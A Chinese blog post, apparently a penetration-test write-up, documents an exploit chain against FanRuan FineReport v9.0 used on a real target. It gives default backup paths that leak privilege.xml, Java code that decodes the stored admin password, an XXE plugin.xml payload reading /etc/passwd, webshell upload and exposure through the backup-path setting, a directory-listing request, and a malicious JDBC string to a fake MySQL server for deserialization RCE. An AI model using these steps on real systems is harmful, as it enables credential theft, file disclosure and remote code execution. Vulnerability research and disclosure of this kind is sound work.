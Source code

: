 ```yaml
---
layout: post
title: 帆软报表v9.0 Vulnerability
summary: 一次针对帆软v9.0系统的渗透发现的脆弱点
featured-img: fr
---
```


## TL; DR

网上公开的目前只有帆软v8.0部分漏洞，而v9.0中这几个漏洞已修（HW快开始了）

本文记录针对帆软v9.0渗透中发现的脆弱点

+ 前台备份文件泄露（默认路径）
+ 后台XXE
+ 后台GetShell
+ 后台任意jdbc串连接导致
  + 本地文件读取
  + 反序列化RCE

## 前台备份文件泄露

帆软v9.0提供了备份文件功能

默认情况下（官方示例https://help.finebi.com/finebi4.1/doc-view-517.html）的备份文件路径是：

```
path="${WEB_REPORT}/bakup"
```

存在以下几种备份（就是bakup，不是我笔误）：

```
all_bakup  
config_bakup  jar_bakup  log_bakup
plugins_bakup  reportlets_bakup  update_bakup
```

备份内部的路径为

```
autobackup/YYYY.MM.DD<space>HH.MinMin.SS
manualbackup/<NAME(default is timestamp)>
```

如果确认WEB根目录下存在备份目录，可以尝试猜解timestamp。如果是Windows下，还可结合短文件名

我所遇目标系统privilege.xml路径：

```
http://IP/WebReport/bakup/config_bakup/autobackup/2020.04.07%2018.10.10/resources/privilege.xml
```

privilege.xml中存放了编码后的admin密码，反编译jar可知编码算法

```java
// fr-core-9.0.jar/com/fr/stable/CommonCodeUtils.java
public class Main {
    private static final int[] PASSWORD_MASK_ARRAY = {19, 78, 10, 15, 100, 213, 43, 23};

    public static String passwordDecode(String paramString) {
        if (paramString != null && paramString.startsWith("___")) {
            paramString = paramString.substring(3);
            StringBuilder stringBuilder = new StringBuilder();
            byte b1 = 0;
            for (byte b2 = 0; b2 <= paramString.length() - 4; b2 += 4) {
                if (b1 == PASSWORD_MASK_ARRAY.length)
                    b1 = 0;
                String str = paramString.substring(b2, b2 + 4);
                int i = Integer.parseInt(str, 16) ^ PASSWORD_MASK_ARRAY[b1];
                stringBuilder.append((char)i);
                b1++;
            }
            paramString = stringBuilder.toString();
        }
        return paramString;
    }

    public static void main(String[] args) {
        String pwd = "___0022...";
        System.out.println(passwordDecode(pwd));
    }
}

```

## 后台XXE

后台有上传插件功能，上传文件为zip格式，插件元信息放在压缩包的plugin.xml中

将WebShell和plugin.xml压缩后上传，FineReport在解析plugin.xml时存在XXE

至于源码我就不打算分析了，感兴趣可以自己反编译看一下，教科书式的XXE写法。可能是因为在后台，一直没有人提出

两种利用：

+ 读文件，但XXE回显在插件管理栏时有字数限制，可FTP OOB。而且Java的XXE是可以列目录的，但其实后台有列目录接口，后面讲
+ SSRF，Windows下低版本JDK默认会启用NTLM鉴权，可以破解hash或hash relay

plugin.xml示例：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<plugin>
    <id>EVIL</id>
    <name>&b;</name>
    <active>yes</active>
    <version>0.0.1</version>
    <env-version>8.0</env-version>
    <vendor>finereport.wei</vendor>   
    <jartime>2017-11-08</jartime>
    <description>&b;</description>
    <extra-report>
        <ActorProvider class="com.fr.wei.plugin.h5reportnew.server.report.Html5PageActorProvider"/>
    </extra-report>
    <extra-platform>
        <PlateProvider class="com.fr.wei.plugin.h5reportnew.server.fs.Html5ManagementPlateProvider"/>
    </extra-platform>
</plugin>

```

## 后台GetShell

压缩包中的WebShell解压后会放在

```
WEB-INF/plugins/plugin-EVIL-[VERSION]
```

结合手动备份功能，将其备份到WEB目录下

即可访问

```
http://IP/WebReport/bakup/plugins_bakup/manualbackup/EVIL/plugins/plugin-EVIL-0.0.1/1.jsp
```

假如备份文件路径不在WEB目录下，其实后台给了设置备份文件存储路径的功能，可以将WebShell转到可访问目录中

```
智能运维 -> 备份还原 -> 设置 -> 备份路径
```

我所遇目标系统就是通过这种方式getshell

而且这里在选择备份路径时，是有列目录功能的

```
POST
/WebReport/ReportServer?op=fs_bakrestore&cmd=folder_tree

serverID=&optype=get_nodes&parentID=/root&layer=1
```

结合列目录功能，某些操作也会更加容易

## 任意JDBC串连接

数据库操作可导致反序列化，文章：

https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649721398&idx=3&sn=ffc2b37268b51b61ed4edba5683cd5b5&chksm=888cba59bffb334fabaf35ffb588d7f0d9ed2d4959d7bfd3d4fa137821a23b7b525c2b1a33b3&mpshare=1&scene=23&srcid=&sharer_sharetime=1587033454342&sharer_shareid=04fc381b7838be4b14d617ae0623e947#rd

目标系统是`mysql-connector-java-5.1.6-bin.jar`，在文章所说的可攻击范围内（我通过`ysoserial.URLDNS`验证确实可成功反序列化）

攻击需要结合本地gadgets，反编译`fr-third-9.0.jar`发现存在`springframework`，但spring版本不合，反编译后发现没有`springframework.beans.factory.support.AutowireUtils`和`springframework.core.SerializableTypeWrapper`。且目标是JDK8u242，就算spring是漏洞版本也无法攻击

简单尝试后并没有找到可利用的gadgets，如果日后有机会可以尝试挖掘`fr-core, fr-third, fr-chart`等jar包

在有可利用gadget情况下:

将`fr-third-9.0.jar`导入本地mvn仓库

```
mvn install:install-file -Dfile='fr-third-9.0.jar' -DgroupId='com.fr.third' -DartifactId='fr-third' -Dversion='9.0' -Dpackaging=jar
```

将gadget的package的导入的路径修改为`com.fr.third.xxx`，修改pom.xml加入`fr-third dependency`后重新编译

服务端`Fake_MySQL_Server`监听，后台修改JDBC串为

```
jdbc:mysql://IP:3306/db?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_GADGET_CMD
```

修改后随意触发一处查询即可RCE
